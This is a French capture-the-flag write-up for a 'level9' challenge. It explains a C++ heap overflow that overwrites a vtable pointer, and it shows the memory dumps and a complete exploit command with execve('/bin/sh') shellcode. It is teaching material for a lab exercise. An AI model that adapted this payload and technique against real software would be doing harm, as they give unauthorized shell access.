

# level9 - C++ Buffer Overflow avec Shellcode

## Analyse du Programme

**Structure**
- Programme en C++
- Allocation dynamique avec `_Znwj` (opérateur new)
- Deux allocations de 108 bytes
- Copie de l'argument avec `memcpy`
- On a un call d'une fonction via un pointeur a la fin du main :
```nasm
    main<+159>:   call   *%edx
```


**Caractéristiques Mémoire**
- Premier bloc à `0x804a008`
- Second bloc à `0x804a078`
- Offset de 108 bytes entre les blocs
- memcpy à `0x0804a00c`
- Vtable de la classe à `0x08048848`

```nasm
0x804a008:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
```




## Exploitation

**Memory view**

```nasm
                                                                        shellcode(21 bytes)
0x804a008:      0x08048848 (vtptr)      0x0804a010-(adresse de)--> 0x99580b6a      0x2f2f6852
0x804a018:      0x2f686873              0x896e6962                 0xcdc931e3      0x41414180
0x804a028:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a038:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a048:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a058:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a068:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a078:      0x0804a00c              0x00000000                 0x00000000      0x00000000
                    |
                    |
                    +---------> Contient l'adresse 0x0804a010            
```

**Construction du Payload**
- Adresse pointant vers le debut de notre shellcode
- Shellcode: 21 bytes pour `execve("/bin/sh")`
- Padding: 83 bytes
- Adresse du pointeur pointant vers le debut de notre shellcode


**Commande d'Exploitation**
```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A"*83 + "\x0c\xa0\x04\x08"')
```

Le payload:
1. Adresse pour écrire le shellcode
2. Shellcode de 21 bytes
3. Padding de 83 bytes
4. Adresse de retour pointant vers le shellcode

Cette exploitation permet d'exécuter le shellcode en redirigeant le flux d'exécution vers notre code malveillant dans la heap.
